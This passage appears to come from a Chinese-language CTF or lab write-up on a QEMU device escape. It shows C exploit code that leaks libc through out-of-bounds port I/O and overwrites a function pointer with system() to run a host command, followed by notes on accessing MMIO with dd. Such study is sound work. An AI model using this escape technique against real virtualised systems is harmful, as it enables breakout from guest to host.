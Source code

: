 ```c
}

int main()
{
    // create "/bin/sh" to regs[2]
    int mmio_fd = open("/sys/devices/pci0000:00/0000:00:03.0/resource0", O_RDWR | O_SYNC);
    if (mmio_fd == -1)
        pexit("[-] open mmio interface failed");

    mmio_mem = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, mmio_fd, 0);
    if (mmio_mem == MAP_FAILED)
        pexit("[-] mmap mmio_fd failed");

    // touch Z
    // cannot be /bin/sh otherwise you will receive an err msg:
    // "sh: turning off NDELAY mode"
    mmio_write(0xc, 0x005a2068);
    mmio_write(0x8, 0x63756f74);

    // leak and overwrite function pointer
    if (iopl(3) != 0)
        pexit("[-] iopl failed");
    uint64_t libc = pmio_aar(0x110);
    libc <<= 32;
    libc += pmio_aar(0x10c);
    libc -= 0x4ae90; // offset of rand()
    uint64_t system_addr = libc + 0x55410;
    printf("[*] libc: 0x%016llx\n", libc);
    printf("[*] system: 0x%016llx\n", system_addr);

    /* overwrite the pointer of rand_r */
    pmio_aaw(0x114, system_addr & 0xffffffff);
    mmio_write(0xc, 0xdeadbeef);

    return 0;
}
```



Others

- `outl`, `inl` 底層是用 asm instruction 直接存取 device port，不過還有其他方法也可以對 device 做讀寫

  - `dd if=/sys/devices/pci0000\:00/0000\:00\:03.0/resource1 bs=4 count=1`

    - 從 MMIO 讀 4 bytes

  - `dd if=/sys/devices/pci0000\:00/0000\:00\:03.0/resource1 bs=4 count=1 skip=1`

    - > use index 0 as offset address to read from

    - 看起來是從 index 1 讀，不是很確定

  - `dd if=XXX of=/sys/devices/pci0000\:00/0000\:00\:03.0/resource1 bs=4 count=1`
